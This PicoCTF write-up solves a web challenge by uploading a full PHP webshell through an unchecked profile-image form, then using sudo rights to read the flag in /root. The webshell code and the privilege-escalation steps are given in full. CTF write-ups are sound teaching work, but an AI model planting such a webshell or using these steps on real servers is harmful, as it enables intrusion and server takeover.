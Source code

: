 ```yaml
---
title: n0s4n1ty 1
published: 2025-08-07
description: Solving n0s4n1ty 1 – PicoCTF Writeup.
image: 
tags: [CTF, picoctf, web]
category: PicoCTF
draft: false
---
```

The challenge starts by giving us a simple page containing just a profile upload interface.

![image.png](attachment:2663c5c9-db7b-4983-84df-96fb87eafa36:image.png)

Trying to type or browse through the URL doesn’t give us anything — only a page error. With that, we can assume that the easiest way (and probably the intended way) to proceed is to **upload a shell**.

We don’t need to overthink and build something from scratch — simple solutions often work. So, after a quick search, we found this **simple PHP webshell** shared on Discord (https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985):

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>

```

### Breaking down the code into simple steps:

- `<form>` → Creates a **form with an input box and a button**.
- `method="GET"` → Means it will **send the text via the URL** (at the top of the browser).
- `name="<?php echo basename($_SERVER['PHP_SELF']); ?>"` → Just gives the form a name using the current file name.
- `<input type="TEXT" name="cmd">` → This is the **box where you type a command**.
- `<input type="SUBMIT">` → This is the **“Execute” button**.
- `if (isset($_GET['cmd']))` → Checks if someone **typed something and pressed the button**...
- `system($_GET['cmd'] . ' 2>&1');` → The server **runs the command in the terminal** and shows the result.

After uploading the file, the page refreshes and tells us that our file is located at `/uploads/photo.php`. Visiting that path, we see our shell is working as expected.

![image.png](attachment:cd0682d9-ed5f-4d59-911a-3b9b16d22d15:image.png)

We use the command `id` to check which user is running our commands. As expected, the user is **www-data**.

![image.png](attachment:e343e097-9996-4370-a4e2-1c3ce8a6a95a:image.png)

One of the hints in the challenge tells us that, once we gain shell access, we should try running `sudo -l`. From this, we learn that the `www-data` user can execute anything **as long as it's run with `sudo`**

![image.png](attachment:18376618-1518-4445-9168-1d5ece9a0ad6:image.png)

As mentioned in the challenge, the flag is located in `/root`. And indeed, when we run the following command, there it is: 

![image.png](attachment:36a1bcd1-6b7b-48c5-bfb5-b491a5ed3520:image.png)

If we try just `sudo cat flag.txt`, it returns “file not found,” so we need to pass the **full path**. And with that, we successfully retrieve the flag.
